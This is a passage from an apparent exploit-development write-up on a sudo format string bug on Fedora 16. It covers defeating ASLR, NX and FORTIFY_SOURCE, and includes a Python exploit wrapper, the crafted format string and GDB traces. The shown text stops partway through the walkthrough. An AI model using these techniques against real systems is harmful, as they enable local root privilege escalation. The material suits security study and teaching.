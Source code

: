 In order to exploit format string bug we have to bypass all above protections, but thanks to this local bug, we can disable ASLR easily with resources limit trick (another notes, prelink is enabled on Fedora 16 so it also disable ASLR from local exploits). As a consequence, NX can be defeated with return-to-libc/ROP with known addresses. The most difficult part is bypassing FORTIFY_SOURCE.

### Bypassing FORTIFY_SOURCE

We just follow <a href="http://www.phrack.org/issues.html?issue=67&id=9&mode=txt" target="_blank">&#8220;A Eulogy for Format Strings&#8221;</a> article from Phrack #67 by Captain Planet wit very detail steps to bypass FORTIFY\_SOURCE. In summary, there is an integer overflow bug in FORTIFY\_SOURCE patch, by exploiting this we can turn off <span style="line-height: normal">_IO_FLAGS2_FORTIFY bit in file stream and use &#8220;%n&#8221; operation from a writable address. Following steps will be done:</span><span style="line-height: normal"> </span>

1.  Set nargs to a big value so (nargs \* 4) will be truncated to a small integer value, the perfect value is nargs = 0&#215;40000000, so nargs \* 4 = 0. The format string to achieve this looks like: &#8220;%*1073741824$&#8221;
2.  <span style="line-height: normal">Turn off </span>\_IO\_FLAGS2_FORTIFY on stderr file stream
3.  Reset nargs = 0 to bypass check loop

Let examine #2 and #3 in detail. We create a wrapper (sudo-exploit.py) then fire a GDB session:

<pre class="brush: python; title: ; notranslate" title="">#!/usr/bin/env python
import os
import sys

def exploit(vuln):
    fmtstring = "%*123$ %*456$ %1073741824$"
    args = [fmtstring, "-D9"]
    env = os.environ
    os.execve(vuln, args, env)

if __name__ == "__main__":
    if len(sys.argv) &lt; 2:
        usage()
    else:
        exploit(sys.argv[1])
</pre>

<pre class="brush: plain; title: ; notranslate" title=""># ulimit -s unlimited
# gdb -q /usr/bin/sudo
Reading symbols from /usr/bin/sudo...Reading symbols from /usr/lib/debug/usr/bin/sudo.debug...done.
done.
gdb$ set exec-wrapper ./sudo-exploit.py
gdb$ run
process 2149 is executing new program: /usr/bin/sudo
*** invalid %N$ use detected ***

Program received signal SIGABRT, Aborted.
gdb$ bt
#0  0x40038416 in ?? ()
#1  0x400bc98f in __GI_raise (sig=0x6) at ../nptl/sysdeps/unix/sysv/linux/raise.c:64
#2  0x400be2d5 in __GI_abort () at abort.c:91
#3  0x400fbe3a in __libc_message (do_abort=0x1, fmt=0x401f3dea "%s") at ../sysdeps/unix/sysv/linux/libc_fatal.c:198
#4  0x400fbf64 in __GI___libc_fatal (message=0x401f5a6c "*** invalid %N$ use detected ***n") at ../sysdeps/unix/sysv/linux/libc_fatal.c:209
#5  0x400d1df5 in _IO_vfprintf_internal (s=0xbff42498, format=&lt;optimized out&gt;, ap=0xbff42b78  &lt;incomplete sequence 340&gt;) at vfprintf.c:1771
#6  0x400d566b in buffered_vfprintf (s=0x40234920, format=&lt;optimized out&gt;, args=&lt;optimized out&gt;) at vfprintf.c:2207
#7  0x400d0cad in _IO_vfprintf_internal (s=0x40234920, format=0x4023b958 "%*123$ %*456$ %1073741824$: settings: %s=%sn", ap=0xbff42b78  &lt;incomplete sequence 340&gt;) at vfprintf.c:1256
#8  0x401958a1 in ___vfprintf_chk (fp=0x40234920, flag=0x1, format=0x4023b958 "%*123$ %*456$ %1073741824$: settings: %s=%sn", ap=0xbff42b78  &lt;incomplete sequence 340&gt;) at vfprintf_chk.c:35

 [1]: http://en.wikipedia.org/wiki/Position-independent_code#Position-independent_executables
